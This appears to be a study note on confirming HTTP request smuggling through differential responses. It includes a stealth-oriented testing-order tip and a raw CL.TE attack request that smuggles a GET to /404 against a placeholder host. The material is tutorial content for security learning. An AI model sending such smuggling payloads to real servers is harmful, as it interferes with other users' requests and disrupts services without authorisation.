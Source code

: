 ### NOTE

```
The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.

```

## Confirming HTTP Request Smuggling Using differential Response

- when a probable request smuggling vulnerability has been detected, we need to obtain further evidence for this vulnerability by exploiting it to trigger difference in `Contents of application's response`
- this involves sending 2 request
    - `Attack` request that is designed with the processing of the next request.
    - Normal request
- if the response to the normal request contains the expected interference, then vulnerability is confirmed

```
POST /search HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencode
Content-Length: 15

Query=smuggling

```

this request receives `HTTP response` with status code 	200 , containing some search results.

- the `attack request` that needed to interfere with this requests depends on the variant of request smuggling is present.

### Confirming CL.TE vulnerabilities using Differential responses

- for CL.TE vuln. we need to send attack request like this

```
POST /search HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
foo: x

```
